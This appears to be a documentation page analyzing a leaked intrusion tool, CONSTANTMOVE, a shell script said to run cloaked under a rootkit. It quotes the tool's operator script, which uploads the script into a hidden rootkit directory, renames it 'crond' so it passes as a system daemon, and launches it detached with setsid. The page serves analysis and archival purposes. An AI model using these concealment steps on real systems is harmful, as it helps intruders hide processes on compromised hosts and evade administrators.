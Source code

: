 # CONSTANTMOVE

The dump only contains an opscript of this tool. From this opscript, we learn that CONSTANTMOVE is a shell script (has extension `.sh`) that can be run on Linux (explicit reference in opscript) and probably all other Unixes. Deploying it, is as easy as running it with bash.

The script will usually be ran "cloaked", under the protection of the STOICSURGEON rootkit.

Opscript.Constantmove:

```


# 2010-07-21 09:24:00 EDT 

# VARIABLES:
#     MAIN-DIR    = STOIC HIDDEN DIR
#     RUN-AS      = Name to run script as, will be in ps as "/bin/bash RUN_AS" (though cloaked)
#     SET-SID     = Set to nothing at all if setsid is not there (will likely only be there on Linux)

mx
:%s,MAIN_DIR,STOICHIDDENDIR,g
:%s,RUN_AS,crond,g
:%s,SET_SID,setsid,g
`x





# DEPLOYMENT: 

-cd MAIN_DIR
-lsh sed "s,# .*,,g" /current/up/constantmove.sh | sed "s,^ *$,,g" | sed "s,die  *\([0-9][0-9]*\).*,die \1,g" | grep -v "^$" > /current/up/constantmove.sh.clean ; cat /current/up/constantmove.sh.clean
-put /current/up/constantmove.sh.clean RUN_AS
-addpath .
-wh -U setsid RUN_AS
# note the NEXT LINE is backgrounded with an AMPERSAND
SET_SID RUN_AS &
=ps | egrep -v grep | egrep "sh |RUN_AS|sleep"
```
